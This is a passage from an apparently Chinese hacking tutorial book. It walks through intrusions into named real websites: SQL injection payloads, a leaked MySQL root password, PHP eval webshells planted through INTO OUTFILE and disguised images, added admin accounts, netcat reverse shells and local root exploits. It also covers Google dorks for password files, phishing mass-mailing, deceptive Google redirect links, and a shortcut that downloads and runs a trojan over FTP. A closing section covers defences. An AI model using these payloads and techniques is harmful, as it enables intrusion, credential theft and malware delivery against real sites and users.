这样就轻易地得到了网站的物理路径：E:\buywit\outworks.php。其实并非所有的php注入点都可以用这个方法来获得网站物理路径，大家要根据自己的实际情况而定。

#### 6.1.2 union select手工注入

我们把上面获得的注入点在IE里进行union select注入测试：http://www.buywit.cn/outworks.php?x=15302%20and%201=2/**/union/**/all/**/select/**/1,2,3/*，显示字段位置为1和2，如图5。

接着查看一下当前数据库用户，在IE里提交：http://www.buywit.cn/outworks.php?dx=15302%20and%201=2/**/union/**/all/**/select/**/1,current_user(),3/*，访问结果如图6。

## 第六章 网站入侵之Linux服务器

我们看的是Root权限，这就说明只要找到mysql的root密码，服务器基本上就可以拿下了。接着开始读取文件了，路径为：E:\buywit\outworks.php。将其转成hex编码：0x453A5C6275797769745C6F7574776F726B732E706870，再来用load_file函数读取。


在IE里输入：http://www.buywit.cn/outworks.php?dx=15302%20and%201=2/**/union/**/all/**/select/**/load_file(0x453A5C6275797769745C6F7574776F726B732E706870),2,3/*，访问结果如图7。什么东西都没有读出


来！难道不允许load_file函数？加个hex和mid函数再来试试。在IE里输入：http://www.buywit.cn/outworks.php?dx=15302%20and%201=2/**/union/**/all/**/select/**/hex(mid(load_file(0x453A5C6275797769745C6F7574776F726B732E706870),1,500)),2,3/*，访问结果如图8。


只读取到50个字节，看来是限制了字节数。遇到这种情况，手工已经解决不了，只能靠工具了。在网上没有类似的工具，后来BK群里的whytt大牛给编了个工具，终于实现了突破字节限制读文件。

打开工具，在第一个空行中输入地址：http://www.buywit.cn/outworks.php?dx=15302%20and%201=2/**/union/**/all/**/select/**/1111,2,3/* (1111表示显示字段位置)，第二个空行里输入路径：E:\buywit\outworks.php，然后点击“Button1”，程序开始读取，如图9。

我们看代码第三行，找到数据连接文件E:\buywit\include\init.php。再来读取这个文件，结果如图10。

我们找到的数据库信息如下：

- 用户名：root
- 密码：!@#178sky$%^ 
- 数据库名：buywit


以往我们得到数据库用户后，都会去找phpmyadmin这个mysql管理页面，但是在这个网站里没有找到，那怎么办呢？我们可以直接连接数据库试试！先打开CMD，输入命令：telnet www.buywit.cn 3306，结果如图11，可以看到正常连接。


### 6.1.3 Mysql 管理工具备份拿 SHELL

现在我们打开“MySQL Administrator”这款工具，在“server host”处输入www.buywit.cn，“port”处输入：3306，“username”处输入：root，“password”处输入：!@#178sky$%，如图12，然后点击“OK”进行连接。


连接成功后如图13，我们点击“tools”，选“MySQL Query Browser”，弹出“MySQL Query Browser”操作界面，如图14，其实这里和phpmyadmin后台的功能是一样的。

下面开始备份一句话，输入以下语句：

```
Create TABLE a (cmd text NOT NULL);
Insert INTO a (cmd) VALUES('<?php eval($_POST[cmd]);?>');
select cmd from a into outfile 'E:/buywit/images/d.php';
Drop TABLE IF EXISTS a;
```


备份成功，打开一句话连接器，输入木马地址：http://www.buywit.cn/images/d.php，密码cmd。这里我就不上传WebShell了，直接上传mysql提权工具mysql.php，如图15。

### 6.1.4 mysql 简单提权

上传成功后，在IE里访问http://www.buywit.cn/images/mysql.php，“HOST”处输入：127.0.0.1，“User”处输入：root，“Password”处输入：!@#178sky$%，“DB”处输入：mysql，如图16。


图15

然后点击“自动安装MysqlDoor”按钮，成功导出dll，如图17。


图18

接着返回执行系统命令，输入：select state("net user root$ 5201314 /add")，然后点击“执行SQL语句”，执行成功，如图18。


图17

就这样，成功添加了系统管理员用户，然后连接对方3389，成功进入桌面。

接着上传cain嗅探工具到这台服务器，打开cain对210.83.80.97进行ARP欺骗嗅探（至于如何ARP欺骗，详见第二章）。经过几天的嗅探，功夫不负有心人，终于抓到对方登录FTP的密码，如图20。

接着打开CMD输入命令：ftp www.cqautofans.com，再输入得到的用户名和密码进行

登录，成功进入 FTP 服务器，如图 21。


接着上传 WebShell，输入命令：put system.php，如图 22，上传成功。

在 IE 里访问 http://www.cqautofans.com/system.php，结果如图 23。


可以看到服务器是 Linux 系统，那么应该如何来提权呢？先来看看对方开放了哪些端口。点击“Execute Command”，输入命令：netstat -nat，点击“Execute”按钮，结果如图 24。

这个服务器开放了 SSH 服务 22 端口，那么来试试社会工程学吧。

### 6.1.5 社会工程学提权

打开 SSH 连接工具“SSH Secure Shell Client”，输入域名：www.cqautofans.com，用回车后登录成功，如图 26。


其实有时候提权并不是一定要有 0day，社会工程学也是相当有作用的。

## 6.2 内网网站入侵

内网网站，即网站服务器在内网。其实整个入侵方法和外网网站是一样的，唯一的区别在于，开启 22 端口后，不能够直接连接到服务器的 22 端口，需要通过端口映射才能实现连接。

### 6.2.1 MySQLi_Dumper 工具注入


用户名：qiche，密码：cj qiche，点击“Connect”，如图 25。


MySQLi_Dumper 是一款非常强大的 union select 注入工具，主要针对 PHP 系统，它不仅可以读取网站的数据库，而且还可以通过已知网站路径爆出源代码，从而免去了手动注入之苦。

比如一个站的注入点为：http://www.woaibaobei.com/m.php?name=land &mo_catid=45，按我自己的习惯，在入侵之前总喜欢找找网站的目录，就算找不到


图 28

http://www.woaibaobei.com，点击“start”就开始查找网站目录，如图 27。


虽然没找到什么有用的信息，但确认了服务器是 Linux 系统，下面就可以开始注入了。

打开“MySQLi_Dumper”，输入 php 网站注入点：http://www.woaibaobei.com/m.php?name=land&mo_catid=45 and 1=2，在“SQLi”里输入：union select [n]--，如图 28。


然后点击“Get Page”，

返回信息如图 29，访问出错。继续点击“Get Page”，返回信息如图 30，出现显示位置 1。

接着复制 http://www.woaibaobei.com/m.php?name=land&mo_catid=45+and+1=2+union+select+1,2 粘贴到“Dump Mysql”的 URL 里，然后将显示位置 1 改成 [t]，如图 31。


最后单击“Get Info”按钮，如果不出意外，就可以读取服务器的信息了，如图 32。


我们看到，mysql 版本为 5.0.51a-24+lenny1，mysql 当前用户是 ibb@localhost，服务器 Apache 版本为 Apache/2.2.9。由于 mysql 数据库是 5.X，所以可以直接读取数据库以及数据表；如果 mysql 数据库是 4.X，那么就不支持了。

我们点击“Get Data Bases”，程序开始读取 mysql 当前用户的所有数据库，如图 33。数据库已经全部列出来了，其中有一些乱码，不过没关系，不影响使用。但是这个工具有一个缺陷，并没有显示出当前是哪个数据库。

我们来手工获取一下，返回到“Num.Blind”，将 URL 里的 1 显示位置改成 database() 函数，然后点击“Get page manually”，成功爆出当前数据库，如图 34。现在知道了当前数据库为 wabb，下面就来读取当前数据表吧。回到“Dump MySQL”，选中当前库 wabb，点击“Get Table”，成功读取所有数据表，如图 35。在这些表里找到一个管理员表 mall_admin_user，选中它，然后点击“Get Columns”，成功读取字段，如图 36。选中 user_name 和 password 这两个字段，点击“Dump Data”，成功读取用户名和 MD5 密码，如图 37。将这些 MD5 值拿到 www.cmd5.com 上面一一进行破解，看看哪个可以破解的出来。我选择的 MD5 值为: 1a30dde2b23e318eaae5ad2cad8c072，破解后得到用户名: sujing。

既然已经破解出了管理员的用户名和密码，接着就要找网站后台了。我们直接打开网站连接 http://www.woaibaobei.com/admin/，页面显示 Forbidden，如图 38。


这说明 admin 这个文件夹存在！接着我们来猜管理页面，试了所有的常用连接，最终失败，只好放弃。

返回网站主页，看到一个购物商城的链接 http://www.woaibaobei.com/mall，mall 这个文件夹名不正是前面数据表的前缀吗？习惯地在这个连接后面加上 admin，访问后直接进入登录页面了，如图 39。


其实这就是 ecshop 的后台界面，只是被修改了颜色而已。我们输入用户名: sujing，密码: sujing2，点击“进入管理中心”，登录成功，如图 40。


### 6.2.2 Ecshop 后台上传漏洞分析

现在已经成功进入后台了，下面开始拿 WebShell。由于这个账号只是一个普通管理员，后台并没有 SQL 查询和数据库相关的功能，经过测试，发现“广告管理”里有上传漏洞。

点击“广告列表”，再点击“添加广告”，广告名称：11111（随便填），媒介类型：图片，通过“上传广告图片”选中本地一个 PHP 一句话木马文件，其它选项默认，如图 41，然后点击“确定”。


添加成功后是不是真的已经上传文件了呢？我们来找一下文件路径。返回“广告列表”，点击"11111"这条广告后面的“生成并复制 JS 代码”按钮，如图 42。


这时来到生成 JS 代码处，如图 43，将 JS 代码里的 http://www.woaibaobei.com/mall/affiche.php?act=js&type=0&ad_id=66 复制出来，

用 IE 打开，如图 44。


我们看到，图片位置显示的是红叉，在其上面按鼠标右键查看属性，发现并没有成功上传 PHP 文件。

虽然没有上传成功，但是我们已经知道，这个上传并没有对 php 扩展进行限制，那么有可能是程序检测到这不是一个真正的图片文件，所以才上传失败。既然这样，我们就上传一个"PHP 版的真图片”！


### 6.2.3 PHP 版一句话图片木马拿 WebShell

大家是否还记得一句话图片木马？就是在一张真图片中插入 PHP 一句话代码，而这张图片还是可以正常打开的。

下面我们来操作一下通过一句话图片木马拿 WebShell。

准备一张小图片，用"UltraEdit-32"十六进制编辑器打开。然后在右边找一个空白处（显示一大片点的地方即是），将 PHP 一句话代码：`<?php eval($_POST[cmd]);?>` 粘贴进去，如图 45。


最后保存一下，再打开图片看看是不是可以正常显示。一般来说，除了画面有些失真，还是可以正常显示的。现在将这个图片的文件名由 11.jpg 改成 11.php，再拿到后台添加广告那里去上传，如图 46。

依然按照前面已经操作过的步骤，单击“确定”


按钮，添加成功。再点击"11111"这条广告后面的“生成并复制 JS 代码”，将地址：http://www.woibaobei.com/mall/affiche.php?act=js&type=0&ad_id=69 复制到 IE 里进行访问，图片正常显示出来了。再看一下图片的属性，果然生成了 PHP 文件，如图 47。


复制属性中的图片地址：http://www.woibaobei.com/mall/data/afficheimg/1253586584901508863.php 到 IE 里进行访问，图片显示正常。

现在这个图片里面包含了一句话代码，我们用一句话 HTML 客户端进行连接。打开一句话 HTML 客户端，输入一句话木马地址：http://www.woibaobei.com/mall/data/Afficheimg/1253586584901508863.php，密码：cmd，然后在左边的下拉框中选择“环境变量”，点击“提交”，如图 48。


虽然什么也没有显示出来，但是其实已经执行了，我们上传一个大马看看。在左边选择“上传文件”，然后通过“browse”选择大马文件，再点击“提交”，如图 49。


上传后在 IE 里输入大马地址：http://www.woibaobei.com/mall/data/Afficheimg/system.php 即可访问，如图 50。


### 6.2.4 udev 本地提权

访问 http://milw0rm.com/exploits/8478，将里面的代码复制出来保存成 b 文件，如图 51。


## 第六章 网站入侵之 Linux 服务器

然后在 WebShell 里把 b 文件上传，接着先在本地打开 CMD，输入命令：nc -vv -l -p 8888，如图 52。

回到 WebShell，点击“Back Connect”反弹端口，在“your port”里面输入：8888，点击“start”，如图 53。

再回到本地的 nc 窗口，如果不出意外，端口已经反弹成功了，如图 54。

现在输入命令：ifconfig，看看是不是在内网，如图 55。

确定了服务器在内网，再输入命令：ls，看看刚刚上传的 b 文件是不是存在，如图 56。

接下来给 b 文件添加执行权限，最简单的办法是直接改成 777 权限。我们输入命令：chmod 777 b，没有返回信息就说明修改成功了。

再来查看一下 udev 的 PID，输入命令：ps aux | grep udev，当前的 PID=555，如图 57。提权的时候，这个 PID-1 也就是 PID=554。

现在开始提权，输入命令：sh b 554，执行成功了！输入命令：id，当前权限已经是 root 了！如图 58。

现在已经是 root 最高权限了，可以直接添加一个用户名，输入命令：useradd root1，接着设置 root1 的密码，输入命令：passwd root1。回车后根据提示输入两次相同的密码，我的 是：123456，如图 59。

接着来连接对方的 SSH。打开 SSH 工具，输入域名：www.woaibaobei.com，用户名：root1，端口：22，点击“连接”，再输入密码：123456，登录成功，如图 60。

没想到这台内网的服务器 22 端口直接对外开放，那我们也省去了很多麻烦，但是这个 SHELL 并不是 root 权限，如果非要得到 root 权限的话，只有在 nc 窗口里直接修改 root 的密码。

我们输入命令：passwd root，如图 61，修改密码成功。然后再来连接 SSH，结果如图 62。

这里注意一下，不到万不得已，千万不要更改对方的 root 密码。

## 6.3 网站跨库入侵

所谓跨库入侵，就是指在一个服务器的两个数据库之间进行查询。我们只要有一个网站的注入点就可以利用 MySQL 语句来查询服务器中另一个网站的数据库。

比如有个注入点：
http://www.findagrave.com/php/famous.php?page=city&FScityid=48533，先来查一下这个网站的目录，打开“Acunetix Web VulnerabilityScanner 6”工具，点击“web scanner”，输入域名：http://www.findagrave.com/，点击“start”。

过一会儿后，结果如图 63，并没有发现什么敏感的页面，网站 web 服务软件是 apache。

用 apache 做 web 服务的不一定就是 Linux 系统，但是它开放了 SSH 服务的 22 端口，那么这个可能性就很大了。

再打开 MySQLi_Dumper 工具，输入注入点：http://www.findagrave.com/php/famous.php?page=city&FScityid=48533，然后点击“get page”，如图 64。

我们看到页面中爆出的显示位置为 1，这时将工具顶部的标签项切换至“Dump MySQL”，输入地址：http://www.findagrave.com/php/famous.php?page=city&FScityid=48533+and+1=2+union+select+[t]，点击“get info”，结果如图 65。

由于数据库权限是 root，我们来爆 root hash。点击左边的“Get users/passwords”按钮，下面显示出了 Root hash：*6EB82F29F9B782272B74F8112748E9F4ED814B4E。

去国外的 sha1 破解网站：http://www.tmto.org/index.php，但没有破解成功，看来还是要读取数据库。我们回到工具中，点击左边的“Get Data Bases”按钮，结果如图 66。

再来看看它的当前库是哪个。我们输入：http://www.findagrave.com/php/famous.php?page=city&FScityid=48533+and+1=2+union+select+database()，如图 67。

当前库为：grave，我们选中“grave”，点击“get tables”，开始读取，结果如图 68。

一个表也没有读取出来，看来当前库做过限制。回到网站主页，看到一个论坛，地址：http://www.findagrave.com/forums。

突然发现，刚才读取出来的库有一个叫 forums，于是试试这个库能不能读取。回到工具选中“forums”，再点击“Get tables”，结果如图 69，显示出了表。

在这其中找找有没有用户表，我找到一个 ubbt_USERS，选中它，再点击“Get Columns”，开始读取字段，如图 70。

然后去论坛首页上找一个管理员来试试，比如：countedx58，再来用 SQL 语句读取一下。选中“USER_LOGIN_NAME”和“USER_PASSWORD”这两个字段，再将下面的“add condition”项勾选，输入条件语句：WHERE USER_LOGIN_NAME='countedx58'，然后点击“Dump data”，成功读取用户名和 MD5 加密数值，如图 71。

接着将这个 MD5 数值：7176562eb0d9aab6bacb1f87bfd5708c，拿到 www.cmd5.com 上面去破解一下，结果如图 72，得到密码：71555！赶紧去论坛上登录吧。

#### 6.3.1 UBB.threads 论坛后台拿 SHELL

在 IE 里打开论坛，输入用户名：countedx58，密码：71555，登录成功，如图 73。然后点击“Control Panel”进入后台，如图 74。

接着点击“Group Management”功能，如图 75，再随便点击一个“change”，跳到一个上传页面，在这里可以直接上传 PHP 木马，如图 76。

点击“browse”选择要上传的文件，再点击“update Group Image”，上传成功。在红叉上按鼠标右键查看属性，如图 77，得到木马地址。

在 IE 里访问这个地址：http://www.findagrave.com/forums/images/groups/system.php，显示如图 78。

#### 6.3.2 反弹 CMD SHELL 利用 sock_sendpage() 漏洞提权

在本机打开 CMD，输入命令：nc -vv -l -p 8888，执行后如图 79。

然后点击 WebShell 上的“Back Connect”反弹端口，输入 IP 及端口：8888，点击“start”，如图 80。

现在回到本机 nc 窗口，我们看到已经反弹回 CMD SHELL 了，如图 81。

在 WebShell 上新建一个 mm 文件夹，再将 exploit.c、run.c、run.sh 上传到 mm 文件夹，并赋予它们可执行权限，再输入以下命令：

```bash
chmod 777 exploit.c
chmod 777 run.c
chmod 777 run.sh
```

最后再来执行./run.sh，如图 82。

接下去的事情相信大家都知道怎么做了吧？我这里也不再多说了。

## 6.4 小结

这章主要讲述了 Linux 系统的网站进行入侵及提权，至于文章中介绍到的两个提权漏洞，危险非常大，希望广大朋友们看到这里，请尽快更新漏洞补丁。

```bash
c:\WINDOWS\system32\cmd.exe - nc -vv -l -p 8888
C:\Documents and Settings\Administrator>nc -vv -l -p 8888
listening on [any] 8888 ...
```

## 第七章 Google 黑客基本功

Google 是一款功能强大的搜索引擎，许多朋友利用它进行社会工程学入侵。在本章，我们将介绍基础的 Google 用法，以及如何使用相关软件配合 Google 进行简单的钓鱼攻击。

## 7.1 Google 黑客之围炉夜话

要学好社会工程学入侵，首先就要学好 Google 语法，因为 Google 的检索功能实在是太强大了！只有掌握了 Google 的基础语法，才能在社会工程学实战中左右逢源。

首先介绍 Google 的一些常用的语法，请见表 1。

| 语法 | 解释 |
| --- | --- |
| Intext: 或者 Allintext: | 把网页中正文内容中的某个字符做为搜索条件。例如在 google 里输入“intext: 动网论坛”，将返回所有在网页正文部分包含“动网论坛”的网页。 |
| Intitle: 或者 Allintitle: | 和上面那个 intext 差不多，这个是搜索网页标题中是否有我们所要找的字符。例如搜索 intitle:安全天使，将返回所有网页标题中包含“安全天使”的网页。 |
| Cache: | 搜索 google 里关于某些内容的缓存，有时可能找到一些好东西。 |
| Define: | 搜索某个词语的定义，比如：define: hacker，将返回关于 hacker 的定义 |
| Filetype: | 搜索指定类型的文件。例如输入 filetype: doc，将返回所有以 doc 结尾的文件 URL。还可以找寻 bak、mdb 或 inc 等等类型文件。 |
| Info: | 查找指定站点的一些基本信息。 |
| Inurl: 或者 allinurl: | 搜索指定的字符是否存在于 URL 中。例如输入 inurl: admin，将返回类似 http://www.xxx.com/xxx/admin 的 URL 地址，可以用来搜索管理员登录的 URL 地址。 |
| Link: | 比如，LINK: WWW.GOOGLE.COM，就会返回和 WWW.GOOGLE.COM 有链接的地址。 |

- 符号：+
  含义：把 Google 可能忽略的字列入查询范围
- 符号：-
  含义：把某个字忽略
- 符号：~
  含义：同意词
- 符号：.
  含义：单一的通配符
- 符号：*
  含义：通配符，可代表多个字母
- 符号：""
  含义：精确查询

下面开始说说这些 Google 语法的实际应用。对于一个居心叵测的攻击者来说，可能最感兴趣的就是密码文件，而 Google 正因为其强大的搜索能力，往往会把一些敏感信息透露给他们。

使用 Google 搜索以下内容，有时会因为各种原因，一些重要的密码文件会暴露出来，如果被别有用心的人获得，那么危害是很大的。

```
intitle:"index of" etc
intitle:"Index of" .sh_history
intitle:"Index of" .bash_history
intitle:"index of" passwd
intitle:"index of" people.lst
intitle:"index of" pwd.db
intitle:"index of" etc/shadow
intitle:"index of" spwd
intitle:"index of" master.passwd
"# -FrontPage-" inurl:service.pwd
```

这里以“intitle:"index of" passwd”语法为例进行演示，其搜索结果如图 1。

打开其中一个连接，可以看到有密码文件，如图 2。打开该密码文件之后，可以看到相关密码，如图 3。

如果要搜索“INC”文件中的敏感信息，可以在 Google 中查询“site:.org filetype:inc”，如图 4。点击连接进去后，可以看到 MYSQL 服务器的账户和密码，如图 5。

同时，利用 Google 完全可以对一个站点进行信息收集和渗透，比如使用 Google 查看特定站点的资料。我们输入：“Site: xxxx.com filetype: doc”进行搜索，这样就可以得到很多有用的 doc 文件，如图 6。

Google 的强大搜索功能在不加任何过滤的情况下，黑客通过构造一些特殊搜索语法，甚至可以得到一些网络用户的隐私信息，比如输入：“Index of /secret/pictures”，表示搜索秘密图片文件，其结果如图 7。

打开其中一个链接，可以看到有很多图片文件列在其中，如图 8，并且这个服务器的目录结构也全部被暴露出来了。

所以，希望大家提高警惕，增强网络安全意识，保护信息安全隐私，不要随便将自己的照片上传到网络，否则后果不堪设想！

## 7.2 源自 Google 的虚假钓鱼信息

这里我们打开一款名为“Google REGEX PARSER”的工具，然后在“QUERY”请求输入栏中输入关键字：“QQ 游戏”。输入完毕之后，单击“ADD”增加按钮，把关键字增加

## 第七章 Google 黑客基本功

到搜索列表中，然后选中“E-MAIL”搜索类型，最后单击主界面右下角的“QUERY”按钮（此按钮在单击后会变成 CANCEL 取消按钮）进行扫描，如图 9。


可以看到，扫描出来了很多邮件地址，这里的邮件地址都和我们搜索的关键字“QQ游戏”有联系，所以我们断定，邮箱地址的主人一定对 QQ 游戏非常感兴趣。


等待扫描完毕之后，单击“SAVE”按钮保存邮件地址。保存完毕之后，我们打开一款名为“爱博邮件群发”的软件，在左侧输入要群发的邮件地址，在右侧输入你的设置信息，如图 10。

此时单击“发送邮件”按钮，程序会马上向指定的邮箱发送邮件，当对方接收到邮件时，如果单击了我们的钓鱼页面，则会不经意的变成我们的钓鱼对象，如图 11。

这里我们只要把 HTTP://HI.BAIDU.COM/PESPIN 替换成一个虚假的钓鱼页面，比如修改成为要输入 QQ 账户和密码登录后才能获取 QB 的页面，那么当对方输入了 QQ 账户和密码之后，他们的账户和密码就成为我们的囊中之物了。

## 7.3 利用 Google 工具超级获取代理地址

许多朋友在入侵时都知道隐藏自己的 IP 地址，这里推荐一款名为“Google RegEx Parser”的工具，它可以通过 Google 搜索来获取代理列表，这样你就不用满世界的去找代理了。

打开工具，在“QUERY”处输入“IP 代理地址”，然后单击“ADD”增加按钮，此时在“REGEX”设置框中选择类型为“PROXY”代理类型，最后单击“QUERY”搜索按钮，可以看见得到了很多代理地址，如图 12。


此时单击“SAVE”保存按钮，把代理地址导出为 PROXY.TXT 文件，然后打开“代理猎手”软件，单击“导入结果”按钮导入这些代理地址。

由于我们得到的很多代理地址可能已经失效，所以需要导入到代理猎手进行代理地址有效性查询。导入成功之后，单击“验证全部”按钮即可开始代理地址有效性的验证，如图 13。


验证结束之后，可以单击“精简结果”按钮，此时弹出如图 14 的窗口，我们按照图中所示勾选相关选项，最后单击“确定”按钮即可，如图14。

这样就可以看到我们验证出来的，可以使用的代理了，如图15。

现在单击IE“工具”菜单下的“INTERNET 选项”，在弹出的窗口中选择“连接”标签页，然后单击“设置”按钮，在弹出的设置窗口中即可输入代理地址，最后单击“确定”按钮即可，如图16。

现在，当我们使用IE浏览器进行访问网站时，就不会显示出自己所在的真实地址了。

## 7.4 获取肉鸡，看我用 Google 黑客

再次打开“Google RegEx Parser”这款工具，与之前不同的是，在“QUERY”处输入关键字：RADMIN。


然后单击“ADD”按钮进行添加，同时选择“REGEX”类型为“IP”，最后单击“QUERY”按钮即可进行扫描，如图17。

可以看到，搜索出了很多带有RADMIN信息的IP地址，现在我们单击“SAVE”按钮把这些IP地址保存到RESULT2.TXT文件。

接着打开一款名为“4899 探测器”的软件，单击“导入IP地址”按钮导入刚才的RESULT2.TXT这个地址列表文件，然后单击“开始搜索”，如图18。


这样，只要我们有足够的运气，就能够搜索出不少使用 RADMIN 并开放 4899 端口的肉鸡了，接着使用 RADMIN 进行连接和控制即可。

## 7.5 利用 Google 跳转生成器进行钓鱼挂马

Google 是安全的，但是利用它进行 HACK 攻击是非安全的！本节将介绍如何使用一些工具配合 Google 进行欺骗、钓鱼和挂马。


### 7.5.1 让 Google 来伪装你的跳转页

- 1、指定跳转页面

首先来到 Google.com，查询“无敌小龙”这个关键字，找到站点 http://hi.baidu.com/pespin 。接着我们使用一款名为“Google 跳转生成器”的工具进行网络钓鱼。

首先选择“指定跳转页面”，然后输入“无敌小龙”，接着单击“生成”按钮，可以看到生成了一个跳转地址，如图 19 。

我们看到其中生成的代码是以 Google 的地址开头的，如：http://www.Google.com/search?hl=zh-CN&q=%CE%DE%B5%D0%D0%A1%C1%FA&btnl=%CA%D6%C6%F8%B2%BB%B4%ED 。

当我们把这个代码发到 QQ 或者论坛上面，别人一看开头是 Google 的地址，就会认为可信度非常高，从而放松警惕。当别人试图打开时，访问到的却不会是真正的 Google 页面，而是我们自己的网页。如果这个网页被挂马，对方的损失就有可能很大了。

- 2、指定跳转到主页

前面介绍的是使用“指定跳转页面”，这里我们再来使用“指定跳转到主页”，两者的区别在于生成的地址代码不同。


打开“Google 跳转生成器”，我们这次选中“指定跳转到主页”，输入主页地址，然后单击“生成”按钮生成一个网页地址，如：http://www.Google.com/search?hl=zh-CN&q=site%3Ahi.baidu.com/pespin&btnl=%CA%D6%C6%F8%B2%BB%B4%ED，如图 20 。

当我们把这些地址伪装得更吸引人时，使得对方放松警惕，只要被浏览，就有可能被挂马。

### 7.5.2 工具组合让欺骗包裹糖衣

注意：在开始进行钓鱼之前有一个要求，就是我们的挂马页面最好在一个独立的服务器上（这样虚拟主机就无法使用本文的方法了）。

比如我们的挂马页面是在 G.CN，通过 PING 命令得到它的 IP 地址为 203.208.33.101，此时访问该地址一样可以浏览网页。因为 G.CN 就是一个独立主机，而非虚拟主机，它开放的 80 端口只对应一个站点，而并非像虚拟主机那样，1个80端口对应了很多主机头，根据主机头返回不同的站点。


我们打开“终极URL工具”，输入G.CN的IP地址，然后进行IP转换，如图21。
此时得到了一个10进制的加密IP地址http://3419414885/，然后通过这个地址进行访问，一样可以浏览G.CN站点，说明加密成功。
此时我们就可以通过这个简单加密的站点进行挂马或者钓鱼了。但是这里我再进行第二道加密，这样使得挂马钓鱼页面更加隐蔽。
打开恋千雪域名欺骗工具，此时把http://3419414885/输入到“Google域名欺骗”下的相关内容框中，然后进行转换，如图22。


此时我们转换得到一个新地址http://images.Google.cn/imgres?imgurl=g&imgrefurl=http://3419414885/，当进行访问时，成功浏览G.CN页面。
此时如果把这个新生成的地址发送给受害者，对方一看是以G.CN开头的，以为是著名的搜索引擎地址，就会放松警惕。这样我们只要将该地址连接的页面挂上木马，对方也就成为了我们的瓮中之鳖了。


### 7.5.3 社工种木马——快捷方式

快捷方式是我们经常点击的对象，这次社工我们就来利用它。首先在桌面上按鼠标右键，选择“新建”-“快捷方式”，然后在“项目位置”里输入如下代码，如图23。

%windir%\system32\cmd.exe /c net stop sharedaccess&echo open 127.0.0.1 > t.t&echo user>>t.t&echo pass>>t.t&echo get mm.exe c:\mm.exe >> t.t&echo bye >> t.t&ftp -s:t.t&del t.t&c:\mm.exe

熟悉DOS命令的应该知道，这其实是个ftp下马过程，需要修改的地方如下：

- 127.0.0.1 // 改成自己的域名
- User // 用户
- Pass // 密码
- get mm.exe c:\mm.exe // 把mm.exe下载下来，放到C盘
- c:\mm.exe // 运行

接着在快捷方式的属性里，把“运行方式”改成“最小化”，最后自己改个图标就完成了。如果你想把下载者的图标改成文件夹形式，则可以在代码中添加“%windir%\explorer.exe c:\”，这样运行了下载者后会打开C盘，和普通的文件夹并没什么区别。此时如果运行我们修改后的快捷方式，则会自动下载木马并且运行。

## 7.6 小结

在常规手法入侵越来越艰难的今天，利用Google语法可以很轻松地获得许多信息，这是一种入侵前必备的前提条件，如何让自己利用最少的精力获得最多的收获，是新一代黑客们面对的课题。

希望读者朋友以学习的态度去掌握这些知识，而不是把这些知识用到破坏别人电脑和刺探对方隐私中，因为这样是有违社会道德和法律法规的！

## 第八章 红客路线和狙击入侵

在前面的章节给大家介绍了很多网站渗透、电脑入侵和个人信息刺探的技术，可见网络江湖很是凶险！我们要提高安全意识和防范能力！所以，本章就给大家介绍一些常规的计算机和个人信息安全保护技术，希望大家在学习之后，网络安全水平有质的提高。

## 8.1 我的隐私我做主

### 8.1.1 虚拟网让你的隐私遁形

经常在网上冲浪，难免会暴露自己的信息，譬如笔者就比较反感被查到自己的IP地址，弄得一点上网隐私都没有。如何隐藏IP地址呢？大家常常所说的方法就是使用代理服务器。但是现在的代理服务器越来越少了，并且能够长期稳定提供服务的更是凤毛麟角，于是笔者转为使用VPN上网，从而隐藏IP地址。

> 小知识：简单地说，VPN（Virtual Private Network，虚拟专用网络）即是指在公众网络（Internet网络）上所建立的企业网络，并且此企业网络拥有与专用网络相同的安全、管理及功能等特点，它替代了传统的拨号访问，利用Internet公网资源作为企业专网的延续，节省昂贵的长途费用。VPN乃是原有专线式企业专用广域网络的替代方案，它并非改变原有广域网络的一些特性，如多重协议的支持、高可靠性及高扩充度，而是在更为符合成本效益的基础上来达到这些特性。


VPN上网是要使用到VPN服务器的，并且网络上提供的VPN服务器一般都要缴费，这里笔者推荐使用Hotspot Shield Launch这款工具，安装之后会在桌面右下角进程图标处显示一个图标。在这个图标上按鼠标右键，在弹出的菜单中选择“CONNECT”进行连接，即可启动VPN，如图1。

同时，如果选择“PROPERTIES”，即可弹出一个IE窗口，自动浏览http://127.0.0.1:895/config/页面，从这里可以看到当前的VPN连接信息，如图2。


我们看到其中显示本机在VPN网络中的IP地址为“10.121.144.169”，它其实就相当于LAN局域网IP地址，可以在CMD下输入ipconfig命令查看本机的网络连接，如图3，其中的以太网（局域网）IP地址为“10.121.144.169”。

现在单击软件的“CONNECT”连接按钮，然后访问 http://www.ip138.com/ 网站，可以看到笔者的 IE 已经是通过 VPN 来连接网络了，如图 4。


这里我们并没有设置 IE 的代理或者其他的服务就轻松实现了 VPN 连接，达到了隐藏 IP 的效果。接下来，再看看 QQ 中的效果。

当对方使用彩虹 QQ 查看我们的 IP 地址时，就会显示为美国的 IP 地址，如图 5，这个 IP 地址也就是 VPN 服务器的外网 IP 地址。


如果你暂时不使用 VPN 服务器连接网络，也可以使用软件的“DISCONNECT”选项断开连接功能。

## 8.2 男人的战争——捂死下载者

下载者是黑客进行木马植入的先锋部队，如何防御下载者，对于目前的电脑安全十分重要。本节就来介绍一些笔者在防御下载者的过程中所摸索出的小对策。

### 1、给下载者安装一个摄像头

谈到下载者，知道它的读者一定脸色骤变！下载者通常会把 1 个或多个木马程序往我们的电脑上下载安装，非常可怕！

这里给大家介绍一款 Kendy 编写的“下载者监视器”，它能对下载者调用的 API 函数进行监控，在编程中这招叫做 API Hook 技术，也就是监视程序调用的 API 函数，然后进行后期处理。


首先打开“下载者监视器”，选择“开始监视”，可以看到在“监视日志”中已经给出了监视成功的提示，如图 6。

现在只要我们的电脑运行了一个下载者程序，“下载者监视器”马上就会拦截到！如图 7，从中还可以看到下载者要下载的网络文件地址，和本地保存运行的路径。熟悉的用户可以顺藤摸瓜，去下载这个网络文件进行研究。


### 2、后下载者时代——捂死下载的发信木马

就算下载者一时得逞，下载了一堆盗号木马到我们的电脑上，我们还是有对策来防止的！一般来说，现在的盗号木马一般就是先对键盘操作进行记录，然后发送记录到黑客的指定邮箱。那如果能够把木马发信扼杀在摇篮中，一定可以保护好自己的账户安全。

现在要给读者介绍的这款工具，就是能够防御键盘记录器和邮件发送的“小鬼当差”，如图8，它是由灰鸽子工作室开发制作的，功能十分强大，可以监视连接网络和键盘的进程！

我们来演示操作下，先使用一款发信程序（比如Outlook、Foxmail等），填写好各项设置信息后“发送邮件”，如图9。

可以看到，发信软件的访问网络操作马上被“小鬼当差”软件拦截住了，如图10。

这样，只要以后开启此款软件，就算下载者程序下载并运行了木马，也无法把记录到的信息发送到指定的邮箱，从而杜绝自己隐私的泄露。

## 8.3 扼杀网马看我锦囊妙计

